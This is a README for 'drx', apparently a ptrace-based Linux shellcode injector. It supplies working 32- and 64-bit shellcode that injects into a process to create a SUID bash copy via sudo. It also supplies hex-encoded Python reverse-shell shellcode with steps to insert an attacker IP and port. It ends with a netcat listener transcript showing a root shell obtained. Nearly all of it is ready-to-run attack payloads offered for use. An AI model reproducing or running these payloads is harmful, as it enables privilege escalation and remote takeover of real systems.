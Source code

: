 # drx_ptrace_shellcode_injector
drx ptrace shellcode injector

## How to compile

```
gcc -o drx drx.c
```

## How to use

You can inject some shellcodes:

### Default builtin hello world shellcode

./drx PID

```
./drx 4940
```

### bash suid local privilege escalation via ptrace misconfiguration

Based from: https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

Execute: /bin/sh -c "/bin/echo | /usr/bin/sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | /usr/bin/sudo -S /usr/bin/chmod +s /tmp/bash >/dev/null 2>&1`"

For a 32 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x74\x2e\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x89\xc3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\xbf\x00\x00\x00\x00\xb8\x72\x00\x00\x00\xcd\x80\xe9\xbd\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x8d\x0c\x24\x8b\x1c\x24\x31\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

For a 64 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\xc5\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

### python reverse shell detached background: local privilege escalation via ptrace misconfiguration

https://github.com/David-Reguera-Garcia-Dreg/python_reverse_shell_detached_background/

Steps for **64 bit process**:

Generate IP str, for ex 51.195.45.136
```
export IP_ADDR=51.195.45.136
xxd -p <<< `printf '%02x' ${IP_ADDR//./ }`  | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x33\\x33\\x63\\x33\\x32\\x64\\x38\\x38

Generate PORT str, WARNING! only is valid a range port from 1000 to 9999 (no 89, no 10003), for ex 6868
```
xxd -p <<< 6868 | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x36\\x38\\x36\\x38

Replace in this command the **IP_HEX** and **PORT_HEX** with the PORT STR & IP STR output:

echo -n "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\xb8\\x39\\x00\\x00\\x00\\x0f\\x05\\x48\\x83\\xf8\\x00\\x74\\x25\\x48\\x89\\xc7\\xbe\\x00\\x00\\x00\\x00\\xba\\x00\\x00\\x00\\x00\\x41\\xba\\x00\\x00\\x00\\x00\\x41\\xb8\\x00\\x00\\x00\\x00\\xb8\\x3d\\x00\\x00\\x00\\x0f\\x05\\xe9\\x5f\\x02\\x00\\x00\\x6a\\x00\\xe8\\x0d\\x02\\x00\\x00\\x65\\x78\\x65\\x63\\x28\\x22\\x22\\x22\\x0a\\x69\\x6d\\x70\\x6f\\x72\\x74\\x20\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2c\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2c\\x6f\\x73\\x2c\\x73\\x79\\x73\\x0a\\x0a\\x70\\x69\\x64\\x72\\x67\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x70\\x69\\x64\\x72\\x67\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x63\\x68\\x64\\x69\\x72\\x28\\x22\\x2f\\x22\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x73\\x65\\x74\\x73\\x69\\x64\\x28\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x75\\x6d\\x61\\x73\\x6b\\x28\\x30\\x29\\x0a\\x0a\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x66\\x64\\x72\\x65\\x67\\x20\\x3d\\x20\\x6f\\x70\\x65\\x6e\\x28\\x22\\x2f\\x64\\x65\\x76\\x2f\\x6e\\x75\\x6c\\x6c\\x22\\x2c\\x20\\x22\\x77\\x22\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x3d\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x73\\x6f\\x63\\x6b\\x65\\x74\\x28\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x41\\x46\\x5f\\x49\\x4e\\x45\\x54\\x2c\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x53\\x4f\\x43\\x4b\\x5f\\x53\\x54\\x52\\x45\\x41\\x4d\\x29\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x63\\x6f\\x6e\\x6e\\x65\\x63\\x74\\x28\\x28\\x73\\x74\\x72\\x28\\x30\\x78\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31\\x29\\x2c\\x39\\x39\\x39\\x39\\x29\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x31\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x32\\x29\\x0a\\x0a\\x70\\x3d\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2e\\x63\\x61\\x6c\\x6c\\x28\\x5b\\x22\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x22\\x2c\\x22\\x2d\\x69\\x22\\x5d\\x29\\x0a\\x22\\x22\\x22\\x29\\x00\\xe8\\x03\\x00\\x00\\x00\\x2d\\x63\\x00\\xe8\\x0c\\x00\\x00\\x00\\x2f\\x62\\x69\\x6e\\x2f\\x70\\x79\\x74\\x68\\x6f\\x6e\\x00\\x48\\x8d\\x05\\x21\\x00\\x00\\x00\\x50\\x48\\x31\\xd2\\x48\\x89\\xe6\\x48\\x8d\\x3d\\x13\\x00\\x00\\x00\\xb8\\x3b\\x00\\x00\\x00\\x0f\\x05\\xb8\\x3c\\x00\\x00\\x00\\xbb\\x00\\x00\\x00\\x00\\x0f\\x05\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x75\\x64\\x6f\\x00\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90" | sed 's/\\x39\\x39\\x39\\x39/**PORT_HEX**/g' | sed 's/\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31/**IP_HEX**/g'

The output in  the last command is the generated shellcode

Now execute drx with target PID and the shellcode generated, ex with 6978 PID:

```
./drx 6978 "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\x5f\x02\x00\x00\x6a\x00\xe8\x0d\x02\x00\x00\x65\x78\x65\x63\x28\x22\x22\x22\x0a\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x2c\x73\x79\x73\x0a\x0a\x70\x69\x64\x72\x67\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x70\x69\x64\x72\x67\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x6f\x73\x2e\x63\x68\x64\x69\x72\x28\x22\x2f\x22\x29\x0a\x0a\x6f\x73\x2e\x73\x65\x74\x73\x69\x64\x28\x29\x0a\x0a\x6f\x73\x2e\x75\x6d\x61\x73\x6b\x28\x30\x29\x0a\x0a\x64\x72\x67\x70\x69\x64\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x64\x72\x67\x70\x69\x64\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x66\x64\x72\x65\x67\x20\x3d\x20\x6f\x70\x65\x6e\x28\x22\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x22\x2c\x20\x22\x77\x22\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x64\x72\x65\x67\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x0a\x0a\x73\x64\x72\x65\x67\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x73\x74\x72\x28\x30\x78\x33\x33\x63\x33\x32\x64\x38\x38\x29\x2c\x36\x38\x36\x38\x29\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x0a\x0a\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x2c\x22\x2d\x69\x22\x5d\x29\x0a\x22\x22\x22\x29\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x0c\x00\x00\x00\x2f\x62\x69\x6e\x2f\x70\x79\x74\x68\x6f\x6e\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

And done, you get a root shell from a sudo shell user

```
dreg@51.195.45.136:~# nc -lvp 6868
listening on [any] 6868 ...
connect to [51.195.45.136] from fr33project.org [51.195.45.136] 38672
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Ex reverse shell to 127.0.0.1:9999, target pid: 1081

```
/drx 1081 "\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\x5f\x02\x00\x00\x6a\x00\xe8\x0d\x02\x00\x00\x65\x78\x65\x63\x28\x22\x22\x22\x0a\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x2c\x73\x79\x73\x0a\x0a\x70\x69\x64\x72\x67\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x70\x69\x64\x72\x67\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x6f\x73\x2e\x63\x68\x64\x69\x72\x28\x22\x2f\x22\x29\x0a\x0a\x6f\x73\x2e\x73\x65\x74\x73\x69\x64\x28\x29\x0a\x0a\x6f\x73\x2e\x75\x6d\x61\x73\x6b\x28\x30\x29\x0a\x0a\x64\x72\x67\x70\x69\x64\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x64\x72\x67\x70\x69\x64\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x66\x64\x72\x65\x67\x20\x3d\x20\x6f\x70\x65\x6e\x28\x22\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x22\x2c\x20\x22\x77\x22\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x64\x72\x65\x67\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x0a\x0a\x73\x64\x72\x65\x67\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x73\x74\x72\x28\x30\x78\x37\x66\x30\x30\x30\x30\x30\x31\x29\x2c\x39\x39\x39\x39\x29\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x0a\x0a\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x2c\x22\x2d\x69\x22\x5d\x29\x0a\x22\x22\x22\x29\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x0c\x00\x00\x00\x2f\x62\x69\x6e\x2f\x70\x79\x74\x68\x6f\x6e\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```



